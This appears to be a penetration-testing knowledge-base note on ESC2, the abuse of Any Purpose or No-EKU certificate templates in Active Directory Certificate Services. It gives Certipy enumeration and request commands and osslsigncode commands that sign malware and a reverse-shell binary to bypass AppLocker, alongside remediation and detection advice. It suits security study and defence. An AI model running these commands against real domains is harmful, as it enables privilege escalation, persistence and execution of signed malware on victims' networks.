

# 63.03 ESC2 - Any Purpose EKU Abuse

## Executive Summary

ESC2 (Enterprise CA Scenario 2) revolves around the dangerous implications of misconfigured Extended Key Usages (EKUs) within Certificate Templates. Specifically, ESC2 occurs when a certificate template is configured for **Any Purpose** or has **No EKU** defined at all, while allowing broad enrollment rights. Because "Any Purpose" implies the certificate can be used for literally anything—including Client Authentication—attackers can leverage this misconfiguration to authenticate to Active Directory or pivot to more complex certificate attacks (like ESC3 Enrollment Agent abuse).

## The Anatomy of ESC2

Unlike ESC1, which relies heavily on the attacker's ability to supply arbitrary Subject Alternative Names (SANs), ESC2 relies on the sheer power of the resulting certificate's usage capabilities. 

To be vulnerable to ESC2, a certificate template must meet two primary conditions:
1. **Enrollment Rights:** The attacker (e.g., standard `Domain Users`) must have `Enroll` or `AutoEnroll` rights.
2. **Manager Approval is Disabled:** The certificate must be issued automatically upon request.
3. **Overly Permissive EKU:** The template defines its usage as either:
   - **Any Purpose EKU:** Object Identifier (OID) `2.5.29.37.0`
   - **No EKU defined:** By default, in Windows PKI, a certificate with no EKUs is considered valid for *all* purposes.

### Why is "Any Purpose" so dangerous?

When a template is marked for Any Purpose, the generated certificate can be used for:
- **Client Authentication** (`1.3.6.1.5.5.7.3.2`) -> Authenticate to AD.
- **Server Authentication** (`1.3.6.1.5.5.7.3.1`) -> Spoof services.
- **Code Signing** (`1.3.6.1.5.5.7.3.3`) -> Sign malicious binaries as a trusted entity.
- **Certificate Request Agent / Enrollment Agent** (`1.3.6.1.4.1.311.20.2.1`) -> Request certificates on behalf of other users (leading directly to ESC3).

### Architectural Diagram of the Attack Flow



---

## Exploitation Methodology

### Step 1: Enumeration
We utilize tools like Certipy to identify templates with the Any Purpose EKU.

```bash
certipy find -u 'john' -p 'Password123!' -dc-ip 10.10.10.10 -vulnerable -stdout
```

*Expected Output snippet:*
```text
Certificate Templates
  [!] Vulnerabilities
    ESC2 : 'AnyPurpose_Template' can be abused for ANY purpose
  Template Name                   : AnyPurpose_Template
  Display Name                    : Any Purpose EKU Template
  Certificate Authorities         : corp-DC01-CA
  Enabled                         : True
  Client Authentication           : True
  Enrollee Supplies Subject       : False
  Requires Manager Approval       : False
  Extended Key Usage              : Any Purpose
  Permissions
    Enrollment Permissions
      Enrollment Rights           : DOMAIN\Domain Users
```

### Step 2: Requesting the Certificate
Because ESC2 doesn't inherently require the `Enrollee Supplies Subject` flag, the attacker simply requests a certificate for themselves. 

```bash
certipy req -u 'john' -p 'Password123!' -dc-ip 10.10.10.10 \
    -ca corp-DC01-CA -template AnyPurpose_Template
```

*Result:* A certificate (`john.pfx`) is generated. The subject of the certificate is `john`.

### Step 3: Utilizing the ESC2 Certificate

How we use this certificate depends on the context of the domain:

#### Scenario A: The Attacker is already a high-privilege account
If we compromised an administrator account but need persistence, we can generate an Any Purpose certificate for them. Even if their password changes, we can use the certificate for PKINIT authentication indefinitely.

#### Scenario B: Chaining into ESC3 (Enrollment Agent Abuse)
Because the certificate has the "Any Purpose" EKU, it inherently contains the "Certificate Request Agent" (Enrollment Agent) EKU. We can use this `john.pfx` certificate to sign a request on behalf of `Administrator`, assuming another template exists that allows Enrollment Agents to request Client Authentication certificates (See `[[04 - ESC3 - Enrollment Agent Abuse]]`).

#### Scenario C: Bypassing Application Whitelisting
Because the certificate is trusted by the domain (issued by the Enterprise CA), the "Any Purpose" EKU allows it to be used for Code Signing. The attacker can sign malicious executables or PowerShell scripts. If the organization uses AppLocker or Windows Defender Application Control (WDAC) rules that trust binaries signed by the internal CA, the malware will execute seamlessly.

```bash
# Using openssl / osslsigncode to sign a binary with the ESC2 cert
osslsigncode sign -pkcs12 john.pfx -pass Password123! \
    -n "Trusted App" -i "http://corp.local" \
    -in malware.exe -out trusted_malware.exe
```

---

## Technical Deep Dive: Application Policies vs EKUs

It is important to note the difference between Application Policies and Extended Key Usages in AD CS.
- **EKU (Extended Key Usage):** An X.509 extension that indicates the purposes for which the certified public key may be used.
- **Application Policies:** A Microsoft-specific extension (OID 1.3.6.1.4.1.311.21.10) that functions similarly to EKU but is proprietary to Windows PKI.

When an AD CS administrator creates a template and strips all application policies out of it (creating a "No EKU" scenario), AD CS assumes the certificate is valid for *everything*. Cryptographically, an empty EKU list restricts nothing, so the CA validates it against any requested policy during Kerberos authentication or cryptographic checks.

---

## Detection and Defensive Strategies

### 1. Hardening the Templates (Remediation)
- **Define Explicit EKUs:** Never use the "Any Purpose" application policy. Never leave the Application Policies extension empty. If a certificate is meant for Encrypting File System (EFS), define exactly the EFS OID (`1.3.6.1.4.1.311.10.3.4`).
- **Restrict Enrollment Rights:** Standard users should not have access to templates that lack explicit restrictions. 
- **Manager Approval:** Enable CA certificate manager approval on any templates that require highly sensitive EKUs (like Code Signing or Enrollment Agent).

### 2. Event Log Monitoring (Detection)
- **Event ID 4886 / 4887:** Look for certificates issued where the `CertificateTemplate` field matches known Any Purpose templates.
- **Sysmon Event ID 7 (Image Loaded):** Look for unusual binaries signed by the internal CA loading into memory, which may indicate a code-signing abuse path via ESC2.

## Real-World Attack Scenario

**Context:** During an internal assessment, the attacker operates with a low-privileged account (`t.anderson`). The target environment (`matrix.local`) utilizes strict AppLocker policies, blocking all unauthorized executables unless they are digitally signed by the internal Enterprise CA. Running `certipy find`, the attacker highlights a template named `IT_Toolkit` vulnerable to ESC2, as it possesses the "Any Purpose" EKU and allows enrollment by `Domain Users`.

**Attacker Thought Process:**
1.  **Reconnaissance:** Identify the `IT_Toolkit` template with the dangerous "Any Purpose" EKU.
2.  **Exploitation:** Request a certificate for the controlled account (`t.anderson`).
3.  **Weaponization:** Because "Any Purpose" includes Code Signing, use the newly minted certificate to sign a custom reverse shell payload.
4.  **Evasion & Execution:** Execute the payload on restricted workstations to bypass AppLocker, establish a persistent C2 beacon, and pivot laterally.

**Execution:**
The attacker executes the following from their Linux attack machine:

```bash
# 1. Request the ESC2 certificate
certipy req -u 't.anderson@matrix.local' -p 'S00p3rS3cr3t' -dc-ip 10.5.5.10 \
    -ca MATRIX-CA -template IT_Toolkit

# 2. Sign the malicious payload using the extracted PFX
osslsigncode sign -pkcs12 t_anderson.pfx -pass "" -n "IT Diagnostic Tool" \
    -i "http://matrix.local" -in revshell.exe -out signed_revshell.exe
```

**Outcome:**
The CA mechanically grants the "Any Purpose" certificate to the standard user. The attacker uses `osslsigncode` to cryptographically sign their malware. When `signed_revshell.exe` is executed on a heavily restricted endpoint, AppLocker verifies the digital signature against the trusted internal CA root and permits execution. The attacker successfully secures a stable C2 beacon, entirely subverting the organization's endpoint execution restrictions, and paving the way to hunt for Domain Admin credentials.

## Chaining Opportunities
- **[[04 - ESC3 - Enrollment Agent Abuse]]:** ESC2 is the classic primer for ESC3. An Any Purpose certificate acts as a universal skeleton key for the first half of the ESC3 attack chain.
- **Persistence:** Use ESC2 certificates for un-revokable (if CRLs are broken or not checked) domain persistence.

## Related Notes
- [[01 - AD CS Architecture and Enumeration]]
- [[02 - ESC1 - Misconfigured Certificate Templates]]
- [[04 - ESC3 - Enrollment Agent Abuse]]
- [[AppLocker Evasion Techniques]]
